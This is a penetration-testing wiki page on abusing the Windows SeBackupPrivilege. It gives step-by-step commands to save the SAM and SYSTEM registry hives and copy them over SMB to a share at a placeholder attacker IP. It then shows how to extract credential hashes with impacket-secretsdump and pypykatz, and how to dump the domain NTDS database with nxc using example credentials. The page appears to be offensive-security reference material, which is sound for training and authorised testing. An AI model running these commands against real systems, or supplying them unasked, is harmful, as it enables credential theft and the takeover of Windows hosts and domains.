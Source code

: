 # SeBackupPrivilege

A Windows privilege that allows **bypassing standard ACL checks** to read files and registry hives during backup operations. Assigned by default to `Administrators`, [`Backup Operators`](../groups/backup-operators.md), and `Server Operators` but **disabled in user tokens by default**.&#x20;

Backup-aware tools (e.g., `reg.exe`, `robocopy`, `ntbackup`) explicitly enable this privilege at runtime to access protected objects regardless of ACLs.

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="Dump" %}
Move to a [writeable directory](../../infra/os/windows.md#writable-directories) and copy the hives:

```powershell
# Move to a writeable directory
cd c:\windows\temp

# Copy the SAM and SYSTEM hives
reg save hklm\sam c:\windows\temp\sam
reg save hklm\system c:\windows\temp\system
```

Transfer the hives to the attacking host (preferrable via SMB and not WinRM):

```bash
# Start an SMB server
sudo impacket-smbserver share -smb2support / -user test -password test
```

Connect and copy the hives:

```powershell
# Connect to the share
net use z: \\<attacker-IP>\share /user:test test

# Copy the hives
copy sam z:\
copy system z:\
```

Dump the creds on the attacking host:

```bash
# Dump creds with impacket
impacket-secretsdump -sam sam -system system LOCAL

# Dump creds with pypykatz
pypykatz registry --sam sam system
```
{% endtab %}

{% tab title="nxc" %}
If the credentials of the `Backup Operators`'s member are available:

```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}
{% endtabs %}
